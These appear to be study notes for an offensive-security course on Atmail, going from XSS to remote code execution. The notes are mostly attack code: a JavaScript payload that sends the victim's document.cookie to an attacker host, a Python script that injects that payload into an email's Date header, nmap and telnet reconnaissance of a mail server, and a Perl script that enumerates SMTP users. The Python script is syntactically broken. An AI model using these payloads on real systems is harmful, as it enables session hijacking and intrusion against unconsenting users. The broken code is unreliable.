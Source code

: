 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE
The idea is mailservers can be vulnerable to xss, if you send a payload in the date or subject or body as form of iframe or javascript, you canexploit the vulnerability. Note: 99% of the world use about 4 main mail platforms, with gmail and outlook and yahoo basically accounting for over 90% and protonmail 8%. So, everything explained here is mostly theoretical. All mail servers won't accept iframe and the fields are sanitized. So, the only trick you have is still to trick people out of the mail through links. 

## session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```

## sending the payload
```python
import smtplib

def sendEmail(to,from,smtpsrv,payload):
  msg = 'From: attacker@mail.com\n'
  msg += To: victim@mail.com\n'
  msg += f'Date: {payload}\n'
  msg += 'Subject: pwnd\n'
  msg += 'Content-type: text/html\n\n'
  msg += 'something something something'
  msg += '\r\n\r\n'

  server = smtplib.SMTP(smtpsrv)
  try:
    server.sendmail(to, from, msg)
  except:
    pass
  server.quit()
```


## extra info
Scan host and verify whether or not the SMTP is actually running we can connect to it via telnet and issue a few commands. After that, enumerate possible users base on OSINT research on Linkedin. 
```bash
root@asus:/mnt% nmap -sV -T4 -p22,25 mail.acme.comStarting Nmap 7.01 ( https://nmap.org ) at 2018-12-28 19:39 MST
Nmap scan report for mail.acme.com
Host is up (0.00097s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp open  smtp    Sendmail 8.15.2/8.15.2/Debian-8
MAC Address: 08:00:27:0C:B6:CC (Oracle VirtualBox virtual NIC)
Service Info: Host: debian9.acme.com; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.63 seconds
root@asus:/mnt%


root@asus:~/pentest_notes% telnet mail.acme.com 25
Trying mail.acme.com...
Connected to mail.acme.com.
Escape character is '^]'.
220 mail.acme.com ESMTP Sendmail 8.15.2/8.15.2/Debian-8; Fri, 28 Dec 2018 19:31:58 -0700;
HELO mail.acme.com
250 mail.acme.com Hello [77.x.x.x], pleased to meet you
quit
221 2.0.0 mail.acme.com closing connection
Connection closed by foreign host.
root@asus:~/pentest_notes%
```
#### Verify a user exists
```
----- SNIP -----
#!/usr/bin/env perl
use strict;
use warnings;use Net::SMTP;open(my $fh, '<', 'users.txt') or die $!;my @users;
while (<$fh>) {
    chomp($_);
    push(@users, $_);
}close($fh) or die $!;my $s = Net::SMTP->new('mail.acme.com');for my $user (0..$#users) { 
    print "$users[$user] user exists\n" if ($s->verify($users[$user]));
    sleep(1);
}
$s->quit; 
----- SNIP -----
```
